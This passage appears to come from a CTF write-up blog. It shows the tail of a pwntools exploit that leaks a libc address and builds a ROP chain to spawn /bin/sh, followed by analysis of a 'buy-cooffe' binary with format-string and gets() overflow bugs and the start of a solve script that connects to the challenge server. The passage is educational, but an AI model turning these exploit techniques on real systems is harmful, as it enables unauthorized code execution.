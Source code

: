 ```py

p.recvuntil(b'at: ')
leak = int(p.recvline().strip(), 16)
libc_base = leak - 0x48170

log.info(f'leak: {hex(leak)}')
log.info(f'libc_base: {hex(libc_base)}')

# gdb.attach(p, '''
# b *0x80492EB
# ''')

og = libc_base + 0x172952
binsh = next(libc.search(b'/bin/sh')) + libc_base
pop_edi_ret = libc_base + 0x00021e78

pay = b'a'*0x50
pay += p32(leak)
pay += p32(pop_edi_ret)
pay += p32(binsh)

p.sendline(pay)

p.interactive()
```
{{< admonition note "flag" true >}}
`CTF{c7160e6e316920f7c02d1d6eb228f0d7f2fb836bb0db2fb11eaf43577c91b691}`
{{< /admonition >}}

## buy-cooffe(89 solves)
{{< admonition info "Challenge Description" false >}}
It’s early morning, and the caffeine hasn’t quite kicked in yet. As you sip your cup of coffee, you notice something odd – a mysterious program named cooffee is running on your system.
{{< /admonition >}}
### Analysis
The binary for this challenge had a clear format string bug and stack overflow vulnerability. There was also a leak vulnerability because the address of the printf function was printed.
```c
unsigned __int64 coffee()
{
  char format[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Coffee Time\n$ ");
  gets(format);
  printf(format);
  printf("What is this? %p\n", &printf);
  printf("\nCoffee Time\n$ ");
  fread(format, 1uLL, 0x50uLL, stdin);
  puts(format);
  return __readfsqword(0x28u) ^ v2;
}
```
### Solve
This binary have stack canary. I use FSB to leak canary. And just ROP.
```py
from pwn import *

# p = process("./chall", env={"LD_PRELOAD":"./libc-2.31.so"})
p = remote('34.159.64.109', 32324)
```